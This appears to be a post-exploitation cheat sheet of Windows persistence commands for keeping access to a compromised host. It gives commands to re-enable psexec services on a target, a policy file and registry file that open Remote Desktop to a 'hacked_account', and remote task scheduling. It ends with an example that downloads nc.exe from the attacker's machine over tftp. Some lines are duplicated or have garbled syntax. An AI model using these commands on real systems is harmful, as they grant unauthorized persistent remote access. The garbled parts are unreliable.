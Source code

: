 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.


### Enable `psexec`
The [`psexec` tool](http://technet.microsoft.com/en-us/sysinternals/bb897553.aspx) executes processes on other systems over a network. Most systems now disable the "clipbook" which `psexec` required. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 50)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can re-enable the sub-systems needed to use `psexec` using the `sc` commands below.
    
``c:\> net use \\[TargetIP]\ipc$ username /user:password
c:\> sc \\[TargetIP] config netdde start= auto
c:\> sc \\[TargetIP] config netddedsdm start= auto
c:\> sc \\[TargetIP] config clipsrv start= auto
c:\> sc \\[TargetIP] start netdde
c:\> sc \\[TargetIP] start netddedsdm
c:\> sc \\[TargetIP] start clipsrv
``

### Enable Remote Desktop
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.

    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below. 

    <pre>
     Windows Registry Editor Version 5.00
     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
     "fDenyTSConnections"=dword:00000000
     "TSEnabled"=dword:00000001
     "TSUserEnabled"=dword:00000000
    </pre>

 1. On the remote system, execute the following commands:
      
    ``c:\> sc config termservice start= auto sc config termservice start= auto
c:\> regedit /s enable_ts.reg
c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb
c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb
c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini
c:\> gpupdate /Force
c:\> net start "terminal services"
``

### Scheduler
The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.

``c:\> net use \\[TargetIP]\ipc$ password /user:username
c:\> at \\[TargetIP] 12:00 pm command
``

An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`